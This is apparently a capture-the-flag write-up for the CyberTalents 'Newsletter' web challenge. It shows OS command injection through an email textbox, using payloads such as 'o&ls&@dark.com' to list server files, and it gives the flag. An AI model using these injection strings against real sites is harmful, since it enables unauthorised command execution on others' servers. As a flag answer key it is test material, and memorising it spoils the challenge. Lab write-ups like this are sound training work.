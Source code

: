 # CyberTalents
## Web Security

### Challenge Name:
 [*Newsletter*](https://cybertalents.com/challenges/web/newsletter)
 
### Challenge Description
the administrator put the backup file in the same root folder as the application, help us download this backup by retrieving the backup file name

Link: [http://18.192.3.151/newsletter/](http://18.192.3.151/newsletter/)

### Solution
* Try to inject command in the textbox (notice that he want email in this box)
```
o&pwd&@dark.com
```
* So '&' success to inject command lets get backup file name
```
o&ls&@dark.com
```
* You got the Flag!!


### The Flag
 > hgdr64.backup.tar.gz   
